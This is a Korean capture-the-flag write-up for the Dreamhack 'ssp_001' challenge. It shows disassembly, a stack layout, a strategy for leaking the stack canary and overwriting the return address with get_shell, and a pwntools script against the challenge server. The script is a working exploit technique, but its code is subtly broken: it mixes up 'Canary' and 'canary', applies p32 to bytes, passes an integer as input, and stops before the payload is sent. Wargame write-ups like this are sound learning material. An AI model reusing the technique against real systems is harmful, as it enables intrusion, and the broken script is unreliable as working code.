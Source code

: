  코드는 read(0, box, sizeof(box));를 disassemble한 code이다. 이를 통해 box가 ebp-0x88에 위치함을 알 수 있다.
```assembly
   0x080487d3 <+168>:   push   0x40
   0x080487d5 <+170>:   lea    eax,[ebp-0x88]
   0x080487db <+176>:   push   eax
   0x080487dc <+177>:   push   0x0
   0x080487de <+179>:   call   0x80484a0 <read@plt>
```


지금까지의 결과를 바탕으로 스택프레임의 구조를 그려보자.

<img src= "https://user-images.githubusercontent.com/96476520/171430864-2dd0b048-0b89-4f0c-aa52-55920d0e0eb0.png" width="20%" height="20%">


그림에서 box,name의 크기는 0x40byte, Canary,Canary와 SFP 사이,SFP,RET의 크기는 4byte이다.

스택프레임의 구조와 문제 파일의 코드에서 얻은 정보들을 토대로 생각한 나의 Exploit strategy는 다음과 같다. 
 
 "먼저 switch의 인자로 'P'를 주어 print_box 함수를 통해 카나리 값을 읽어낸 후 읽어낸 후 인자로 'E'를 준 다음에 read 함수에서 표준입력으로 더미 값과 카나리 값,get_shell의 주소를 스택프레임 구조에 맞게 담아 셸을 획득한다." 
 
 이제 Exploit script를 작성해보자.

## Exploit script

```python
#importing pwntools
from pwn import*

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host2.dreamhack.games',12351)

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386'

# get_shell 함수의 주소 저장
e= ELF('./ssp_001')
get_shell = e.symbols["get_shell"]

# 카나리 값을 리틀 엔디언의 바이트 배열로 초기화 
Canary = b''

# box to Canary  
idx = 128 # 0x40+0x40

#카나리 값 하나씩 추출할 것이므로 반복문 사용
for i in range(4):
    # select 값으로 P 입력
    p.sendlineafter("> ",'P') 

    # scanf의 입력값으로 줄 것이므로 문자열로 변환하여 전송
    p.sendlineafter(": ",str(idx+i)) 

    #카나리 값 추출
    p.recvuntil(": ")
    Canary += (p.recvn(2))
    p.recvuntil("\n")

# select 값으로 E입력
p.sendlineafter("> ",'E') 

# payload 작성
payload = b'A'*0x40 + b'A'*0x40 + p32(canary) +  b'A'*0x04 + b'A'*0x04 + p32(get_shell)

# scanf의 입력 값으로 payload의 크기를 주어야하므로 string으로 변환 후 길이를 전송
p.sendlineafter(": ", len(str(payload)))
```